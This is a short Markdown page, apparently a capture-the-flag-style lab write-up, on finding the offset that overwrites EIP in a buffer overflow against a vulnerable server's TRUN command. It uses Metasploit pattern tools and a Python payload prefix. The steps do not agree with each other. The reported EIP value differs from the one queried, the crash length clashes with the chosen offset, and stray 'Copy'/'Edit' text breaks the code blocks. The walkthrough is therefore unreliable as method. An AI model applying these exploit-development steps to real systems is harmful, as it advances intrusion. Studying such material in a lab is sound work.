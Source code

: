 # 3. Finding the Offset

**Goal:** Identify the exact number of bytes needed to reach and overwrite EIP

---

## 🔧 Steps Taken:

1. Crash occurred at ~22150 bytes (from fuzzing)
2. Generated pattern:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 22500
Sent pattern via this Python script:

python
Copy
Edit
payload = "TRUN /.:/" + "<pattern here>"
Observed EIP value in Immunity:
EIP =  386F4337

Found exact offset:

bash
Copy
Edit
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138 -l 22500
Result:
Exact match at offset 2003
Exact match at offset 22283

We will use 2003
